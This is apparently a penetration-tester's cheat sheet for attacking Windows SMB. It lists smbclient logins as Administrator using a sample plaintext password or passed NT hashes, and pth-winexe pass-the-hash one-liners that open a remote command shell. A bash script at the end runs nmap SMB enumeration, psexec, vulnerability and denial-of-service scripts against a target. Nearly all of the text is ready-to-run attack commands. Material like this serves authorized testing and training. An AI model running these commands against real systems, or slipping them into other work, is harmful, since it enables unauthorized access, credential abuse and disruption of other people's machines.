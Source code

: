 Access SMB shares interactively, seems to work with anonymous access. Hashes don't work.

```
smbclient //$ip/wwwroot
smbclient //$ip/C$ WIN20082017 -U Administrator
smbclient //$ip/C$ A433F6C2B0D8BB92D7288ECFFACFC7CD -U Administrator --pw-nt-hash # make sure to only use the NT portion of the hash
```

WARNING, be careful when using the `get` command to download absolute path files from the remote system. Eg. `get /etc/passwd` will download the passwd file and overwrite YOUR `/etc/passwd`. Use `get /etc/passwd /tmp/passwd` instead.

To download recursively:

```
# Within smbclient, download everything recursively:
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```

**pth-winexe**

Works great sometimes. Can open a windows cmd shell.

```
pth-winexe -U administrator%WIN20082017 //$ipcmd # using a plaintext password
pth-winexe -U Administrator%A433F6C2B0D8BB92D7288ECFFACFC7CD //$ipcmd # ntlm hash encrypted with https://www.browserling.com/tools/ntlm-hash
pth-winexe -U domain/user%A433F6C2B0D8BB92D7288ECFFACFC7CD //$ipcmd # domain user
pth-winexe -U Administrator%8F49412C8D29DF02FB62879E33FBB745:A433F6C2B0D8BB92D7288ECFFACFC7CD //$ip cmd # lm+ntlm hash encrypted with https://asecuritysite.com/encryption/lmhash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:A433F6C2B0D8BB92D7288ECFFACFC7CD //$ip cmd # ntlm hash + empty lm hash
# or
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
pth-winexe -U Administrator% //$ip cmd
```

#### smbenum.sh

```
#!/bin/bash

#SMB Enumeration using nmap
#(c) Mike Digital Offensive

if [ -z "$1" ]
 then
  echo "Error please provide host to enumerate"
  exit
else
 nmap -script=smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse $1
fi
```

